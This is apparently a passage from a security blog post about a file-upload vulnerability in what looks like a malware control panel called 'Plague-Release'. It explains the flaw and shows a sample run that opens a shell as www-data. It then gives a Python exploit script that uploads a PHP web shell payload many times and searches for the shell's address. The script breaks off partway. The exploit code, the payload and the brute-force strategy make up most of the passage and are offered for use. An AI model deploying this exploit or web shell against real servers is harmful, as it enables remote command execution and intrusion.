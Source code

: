 ```php
}
```


Then we run into a switch statement, as we control RT, we can just hop into RT_FILE, and enjoy the classic file upload vuln. Due to basename we can't do a standard path traversal, but of course they didn't care about .htaccess rules etc. and you also don't need any kind of shared secret/auth to do this. The only thing left is the question, is the filename random enough to not be guessable over the network?

* How many requests can we make per minute?
* What's the max time we will accept as feasible?
* How can we increase the likelyhood?


While the first two factors are debatable, we can of course increase the likelyhood of a hit when uploading more files. Therefore the strategy is simple: 1. Prepare our evil php code, upload ~200 files (you can increase that of course if you want to), and then try to find one of our shells. Easy. Here's the full exploit script, I recommend using it ethically \*laught\* 


And an example run:
```bash
esjay@g Plague-Release % python3 sploit.py http://localhost:8200
[*] Uploading files ...
[*] Searching for our shell ...
[+] Found shell @ http://localhost:8200/uploads/1629452215549_x.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)

> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```


```python

import requests
import threading
import time
import sys

def upload(host):

  url = f"{host}/result.php?GUID=bla&RT=bla2&ID=fakeid&Continue=2"

  data = {"Nick" : "nickname", "OS" : "windows", "Comp" : "Compyoyo", "User" :"fakeuser", "CPU" : "CPU123", "GPU" : "GGPU1", "Anti" : "av1", "Def" : "Defender", "Inf" :"infa12", "GUID" : "fakeguid", "RT" : 2, "ID" : "fakeid", "Continue":2}


  files = { "File" : ( "x.php" , b"<?php system($_REQUEST['cmd']); ?>") }

  r = requests.post(url, data=data,files=files, verify=False)


tValue = 0
shellUrl = None
theLock = threading.Lock()


def finder(host):
  global tValue
  global shellUrl
  global theLock

  while shellUrl is None:
    try:
```